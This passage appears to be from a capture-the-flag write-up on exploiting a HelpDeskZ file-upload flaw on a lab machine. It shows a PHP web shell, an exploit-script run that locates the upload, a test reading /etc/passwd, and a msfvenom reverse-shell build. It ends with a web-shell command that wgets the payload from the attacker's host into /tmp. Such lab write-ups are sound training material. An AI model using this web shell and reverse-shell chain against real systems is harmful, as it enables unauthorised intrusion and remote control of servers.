 Well they seem to have skipped those last two if statements, and the whole "move to /tmp" is but a pipe-dream.

The logic for file uploads actually looks like this:

- Get the file
- Chill

Even if we get the "File Not Allowed" or "Invalid Extension", nothing actually changes, our file is still uploaded and renamed. So we're golden. Nothing to bypass.

I removed all the extra stuff from our `php` shell so it looks more like:

```
<?php
$a = $_GET['a'];
echo system($a);
?>
```

Upload that to the HelpDeskz via [the ticket submission page](http://10.10.10.121/support/?v=submit_ticket), then run the exploit we found earlier, using the path we already know for our `baseurl` and the name of our file as the `filename`.

```
python exploit.py http://10.10.10.121/support/uploads/tickets/ g_shell.php
```

Check the page is responding:


```
http://10.10.10.121/support/uploads/tickets/525fd02f530e81b8a207142174137194.php
```

Do a test command to check it works OK:

```
http://10.10.10.121/support/uploads/tickets/525fd02f530e81b8a207142174137194.php?a=cat%20/etc/passwd
```

Noice. Code execution. 

Create a Reverse Shell in `msfvenom`:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f elf > plx69 
```

Just a quick aside: `msfvenom --list payloads | grep target_os` is a dope way to quickly figure out which payload you need to specify for your shell, just replace target_os with whatever you want to target "linux", "windows", etc.

Fire up a python SimpleHTTPServer with `-m` then , use our webshell to do:

```
http://10.10.10.121/support/uploads/tickets/525fd02f530e81b8a207142174137194.php?a=wget http://10.10.14.14:8000/plx69 -P /tmp/plx69
```

Now make sure that the shell is executable:
